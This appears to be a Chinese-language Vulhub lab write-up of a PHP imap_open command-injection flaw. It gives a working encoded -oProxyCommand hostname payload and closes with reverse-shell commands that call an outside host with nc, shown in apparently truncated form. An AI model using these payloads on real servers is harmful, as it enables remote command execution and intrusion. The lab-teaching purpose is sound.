






影响范围
PHP 5.6.0 至 5.6.38，7.0.0 至 7.0.32，7.1.0 至 7.1.24，7.2.0 至 7.2.12 版本。Debian Linux 8.0、9.0 版本。
该漏洞源于程序没有正确验证 server URI。远程攻击者可借助 imap_rimap 和 tcp_aopen 函数利用该漏洞执行任意操作系统命令。
漏洞搭建
没有特殊要求，请看 Vulhub 搭建方法。
漏洞利用
启动之后访问 web 页面。

随便输入，抓下包。

注意 hostname 这里是有漏洞的，简单验证一下。先构造 payload：
payload
x+-oProxyCommand=echo echo'himobrine'>/tmp/test|base64 -d|sh}注：这里要加密才能成功，记得先 base64 再 url 编码。其中最后一个大括号用来闭合接收变量一开始的括号，类似闭合 SQL 注入里面的单引号。 -d 选项为 decode 解码，管道 sh 就是把解码后的内容作为 shell 脚本的参数，最后通过 ProxyCommand 来执行 shell。

加密完后的代码：
payload
hostname=x+-oProxyCommand%3decho%09ZWNobyAnaGltb2JyaW5lJz4vdG1wL3Rlc3Q%3d|base64%09-d|sh}
执行成功以后，进入 docker 的 bash 容器，然后查看文件：
bash
docker exec -it d650e2fbb968 /bin/bash

可以看到已经成功了。想要更大危害的话可以尝试反弹 shell：
bash
/bin/sh -i 2>&1
nc xx.xx.xx.xx 4444 >/tmp/f